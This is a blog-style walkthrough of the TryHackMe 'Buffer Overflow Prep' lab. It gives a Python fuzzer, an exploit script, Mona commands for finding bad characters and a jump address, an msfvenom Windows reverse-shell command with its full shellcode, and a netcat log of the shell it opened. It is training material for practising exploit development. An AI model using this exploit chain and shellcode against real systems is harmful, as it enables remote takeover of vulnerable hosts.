


# Buffer Overflow Prep
I believe Tiberius wrote this one, which is comforting. He has some great Linux and Windows Priv Escalation courses on Udemy. You can find this TryHackMe room [Here](https://tryhackme.com/room/bufferoverflowprep). He also has a great [Buffer Overflow Pen Test Cheat Sheet on Github](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst). 

## Overflow 1
### Controlling EIP
I'll leave out the finer details where possible. I really want to jot down any highlights, scripts, or tips that I think might be beneficial for future Buffer Overflow encounters. Definitely checkout the room (linked above) for full details.

Mona Working Folder
{: .highlight }  

Set a Mona Working Folder after launching Immunity via the following command. This will be helpful later when we start using Mona to identify bad characters.
```
!mona config -set workingfolder c:\mona\%p
```

Python3 Fuzzer
{: .highlight }  
The fuzzer will send increasingly long strings comprised of As. If the fuzzer crashes the server with one of the strings, the fuzzer should exit with an error message. Make a note of the largest number of bytes that were sent.

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.180.173"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
  ```

Python3 Exploit
{: .highlight }  
We create a second python file, exploit.py, containing the following:

```python
#!/usr/bin/env python3
import socket

ip = "10.10.180.173"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
  ```

We then generate a cyclic pattern vai pattern_create and make it *400 bytes longer than the string that crashed the server*.

We ran the fuzzer against the server and received the following message when the application crashed in Immunity:
```
Fuzzing crashed at 2000 bytes
```

So I assume our msf command needs to be -l 2400:
```
msf-pattern_create -l 2400 > pattern.txt
```

We copy the entire pattern, and then modify  exploit.py's 'payload' variable to contain this long string of characters (in quotes!).

We run exploit.py and watch the program crash. In Immunity, we input the following into the command line (noting that 2400 is the value we came up with previously and had input into the msf command)
```
!mona findmsp -distance 2400
```

We're looking for the line that says 'EIP contains normal pattern:' and then we'll pull the offset  from here.



Great. We modify our exploit.py, but this time we remove the payload and replace it with 4 A's and set the offset to the value we found above:
```
prefix = "OVERFLOW1 "
offset = 1978
overflow = "A" * offset
retn = "AAAA"
padding = ""
payload = ""
postfix = ""
```

Restarting the app and immunity, we re-run exploit.py and can see that EIP displays '41414141' - Hex code for 4 A's. We now have control over the EIP.

### Finding Bad Characters
We use Mona to generate a byte array, which is then placed in the working directory we specified at the very beginning of this exercise. Note that \00 is just us excluding the null byte (and is required):
```
!mona bytearray -b "\x00"
```
"Now generate a string of bad chars that is identical to the bytearray. The following python script can be used to generate a string of bad chars from \x01 to \xff":
```
#!/usr/bin/env python3
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```
The reason we've done this, is to get the bytearray to output as a single line, rather than being broken up into several and having to worry about quotes everywhere. I feel like I could still do it without that step, but we'll follow along for now. Once generated, we shouldn't have to do this ever again. We just copy/paste the string. For the hell of it, I'll include that full string here, so that I can just copy/paste it in the future:
```
\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
```

We take the output from the above command and modify exploit.py to include this new string as our payload variable.  
We start the whole process again; closing out of everything, launching the app, launching immunity, attaching the app, hitting run, and executing the exploit.py file.  
Once complete, we need to gather the new 'ESP' address and then run a compaison against the originaly bytearray via mona and the following command:
```
!mona compare -f C:\mona\oscp\bytearray.bin -a <address>
```
In my case, this looked like:
```
!mona compare -f C:\mona\oscp\bytearray.bin -a 0190FA30
```

Mona pops up and shows us our BadChars. In my case, they were: 00 07 08 2e 2f a0 a1  
We take these bad characters and 1) generate a new mona byte array, telling it to also exclude these and 2) Edit our payload in the exploit.py by removing these from the payload.

The Mona command now looks like this:
```
!mona bytearray -b "\x00\x07\x08\x2e\x2f\xa0\xa1"
```
I then searched through exploit.py and removed these bad characters manually.

We restart the process again.
I ran the exploit.py against the machine once more, it crashes, the ESP changes, and I run a  comparison via Mona again. My command, this time, looks like this:
```
!mona compare -f C:\mona\oscp\bytearray.bin -a 01B9FA30
```
The status now reads 'Unmodified', meaning, there are no more bad characters left!  
We need to make sure to hold onto this list of bad characters for when we generate an msfvenom payload - we'll have to exclude them to ensure our malicious code passes through appropriately.

### Finding a Jump Point
While in a crashed state, we run the following command in Immunity in order to find all of the jump points with addresses that don't contain of the badchars. Note that I did have to come back and adjust this after realizing my list of bad chars was off, but the command is easy enough to run:
```
!mona jmp -r esp -cpb "\x00\x07\x2e\xa0"
```
We select Window > Log Data after running this command and we should have a list (as pictured below) breaking down where all of our 'Jump Points' reside

I'm going to start from the top, pulling the address and updating exploit.py to include this value in the 'retn' variable. We do have to put this in little endian format. As noted below.

Our first address is: 625011AF  
So we break this down to 62 50 11 af  
And then we line this up 'backwards' and paste it into our exploit.py
```
\xaf\x11\x50\x62
```
Mind the leading \ backslash - I forgot it my first time around!{: .warning }

### Generate a Payload
We use MSFVenom to generate a payload. We're specifying a stageless windows payload because the victim machine is running windows. Note that your lhost and lport will differ. The -b switch is where we're specifying our bad characters, once again, your results will likely differ. Just be sure to include all of the bad characters found previously.
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.13.13.192 LPORT=443 EXITFUNC=thread -b "\x00\x07\x08\x2e\x2f\xa0\xa1" -f c
```
We take the output from this command and modify exploit.py, overwriting whatever we had there for the 'payload' variable. Note that we don't need anything except the output in quotes. For the payload varialbe in our script, it should similar to the following, noting the positioning of the quotations and parenthesis:
```
payload = ("\xd9\xeb\xd9\x74\x24\xf4\xbf\x21\xac\x4c\x68\x58\x31\xc9"
"\xb1\x52\x31\x78\x17\x83\xe8\xfc\x03\x59\xbf\xae\x9d\x65"
"\x57\xac\x5e\x95\xa8\xd1\xd7\x70\x99\xd1\x8c\xf1\x8a\xe1"
"\xc7\x57\x27\x89\x8a\x43\xbc\xff\x02\x64\x75\xb5\x74\x4b"
"\x86\xe6\x45\xca\x04\xf5\x99\x2c\x34\x36\xec\x2d\x71\x2b"
"\x1d\x7f\x2a\x27\xb0\x6f\x5f\x7d\x09\x04\x13\x93\x09\xf9"
"\xe4\x92\x38\xac\x7f\xcd\x9a\x4f\x53\x65\x93\x57\xb0\x40"
"\x6d\xec\x02\x3e\x6c\x24\x5b\xbf\xc3\x09\x53\x32\x1d\x4e"
"\x54\xad\x68\xa6\xa6\x50\x6b\x7d\xd4\x8e\xfe\x65\x7e\x44"
"\x58\x41\x7e\x89\x3f\x02\x8c\x66\x4b\x4c\x91\x79\x98\xe7"
"\xad\xf2\x1f\x27\x24\x40\x04\xe3\x6c\x12\x25\xb2\xc8\xf5"
"\x5a\xa4\xb2\xaa\xfe\xaf\x5f\xbe\x72\xf2\x37\x73\xbf\x0c"
"\xc8\x1b\xc8\x7f\xfa\x84\x62\x17\xb6\x4d\xad\xe0\xb9\x67"
"\x09\x7e\x44\x88\x6a\x57\x83\xdc\x3a\xcf\x22\x5d\xd1\x0f"
"\xca\x88\x76\x5f\x64\x63\x37\x0f\xc4\xd3\xdf\x45\xcb\x0c"
"\xff\x66\x01\x25\x6a\x9d\xc2\x40\x66\x90\xd2\x3d\x7a\xaa"
"\xd3\x06\xf3\x4c\xb9\x68\x52\xc7\x56\x10\xff\x93\xc7\xdd"
"\xd5\xde\xc8\x56\xda\x1f\x86\x9e\x97\x33\x7f\x6f\xe2\x69"
"\xd6\x70\xd8\x05\xb4\xe3\x87\xd5\xb3\x1f\x10\x82\x94\xee"
"\x69\x46\x09\x48\xc0\x74\xd0\x0c\x2b\x3c\x0f\xed\xb2\xbd"
"\xc2\x49\x91\xad\x1a\x51\x9d\x99\xf2\x04\x4b\x77\xb5\xfe"
"\x3d\x21\x6f\xac\x97\xa5\xf6\x9e\x27\xb3\xf6\xca\xd1\x5b"
"\x46\xa3\xa7\x64\x67\x23\x20\x1d\x95\xd3\xcf\xf4\x1d\xf3"
"\x2d\xdc\x6b\x9c\xeb\xb5\xd1\xc1\x0b\x60\x15\xfc\x8f\x80"
"\xe6\xfb\x90\xe1\xe3\x40\x17\x1a\x9e\xd9\xf2\x1c\x0d\xd9"
"\xd6")
```
We also need to add in some NOPs - think of these as padding to allow more time for the exploit to be read and execute. My understanding is that we can add or subtract these in increments of 8, but 16 should do the trick in most cases. If the listener doesn't pickup, we may return here and increase the NOPs to 32.   
We add NOPs by modifying the exploit.py's 'padding' variable like so:
```
padding = "\x90" * 16
```

And now we start all over again, closing out of everything and re-prepping the environment to run the exploit. The one major difference, is we need to start a listener on our machine in our to pick-up the reverse shell (be sure to use the same port you used in the msfvenom command).

First Attempt Failed{: .warning }

Our first run of the exploit failed. Where did we go wrong?  
In reading through the exercise description, we see this line:
> Not all of these might be badchars! Sometimes badchars cause the next byte to get corrupted as well, or even effect the rest of the string.

Assuming this is the problem, I revisit my bad characters (and will consider NOPs later). I remove every second bad character in sequence (e.g. \x07\x08 are together, I remove x08). My new MSFVenom command reads as follows:
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.13.13.192 LPORT=443 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f c
```
I did also have to go back up to "Finding a Jump Point" to adjust my bad characters there, also updating the 'retn' variable in my exploit.  

I update the exploit.py to include the new payload variable, leaving everything else the same, and walk through the process once more. This time, I do receive a shell on the other end:
```
nc -nvlp 443                                                                                              1 ⨯
listening on [any] 443 ...
connect to [10.13.13.192] from (UNKNOWN) [10.10.180.173] 49341
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\admin\Desktop\vulnerable-apps\oscp>whoami
whoami
oscp-bof-prep\admin
```

Looks like there's a few more practice examples. I'm sure there will be unique quirks to each, so we'll continue on and walk through those as well.
